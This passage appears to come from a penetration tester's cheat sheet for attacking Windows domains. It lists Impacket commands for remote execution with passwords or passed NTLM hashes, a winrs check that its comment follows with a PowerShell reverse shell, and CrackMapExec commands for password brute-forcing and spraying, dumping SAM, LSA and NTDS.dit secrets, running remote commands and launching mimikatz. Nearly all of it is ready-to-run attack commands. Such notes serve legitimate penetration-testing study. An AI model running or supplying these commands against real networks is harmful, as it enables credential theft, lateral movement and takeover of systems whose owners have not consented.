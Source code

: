 ```bash
psexec.py <domain>/<user>:<password1>@<IP>
# the user should have write access to Admin share then only we can get sesssion

psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

smbexec.py <domain>/<user>:<password1>@<IP>

smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

wmiexec.py <domain>/<user>:<password1>@<IP>

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
#we passed full hash here
```

### winrs

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a powershell reverse-shell
# run this on windows session
```

### crackmapexec

- If stuck make use of [Wiki](https://www.crackmapexec.wiki/)

```bash
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' #grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  #Password spraying, viceversa can also be done
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares #lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users #we need to provide DC ip
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions #active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam #SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa #dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds #dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} #we can also run with a specific group and enumerated users of that group.
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' #For executing commands, "-x" for cmd and "-X" for powershell command

#crackmapexec modules
crackmapexec smb -L #listing modules
crackmapexec smb -M mimikatx --options #shows the required options for the module
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz #runs default command
```